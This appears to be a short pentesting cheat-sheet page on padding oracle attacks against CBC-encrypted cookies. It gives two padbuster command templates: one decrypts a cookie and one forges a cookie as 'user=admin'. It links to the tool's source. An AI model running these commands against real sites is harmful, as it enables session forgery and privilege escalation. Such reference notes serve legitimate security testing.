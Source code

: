 ```yaml
---
title: "Padding Oracle"
date: 2024-6-27
tags: ["padding oracle", "padbuster", "aes", "cbc", "cipher", "encryption"]
---
```


### Tools

{{< tab set1 tab1 active >}}padbuster{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# 8 or 16     : block size
# encoding 0  : base64
padbuster http://<TARGET>/index.php <COOKIE_VALUE> 8 -cookies <COOKIE_NAME>=<COOKIE_VALUE> -encoding 0
```

```console
# Forge cookie value, e.g. user=admin
padbuster http://<TARGET>/index.php <COOKIE_VALUE> 8 -cookies <COOKIE_NAME>=<COOKIE_VALUE> -encoding 0 -plaintext user=admin
```

</div>

{{< /tabcontent >}}

<small>*Ref: [Download padbuster](https://github.com/AonCyberLabs/PadBuster)*</small>

<br>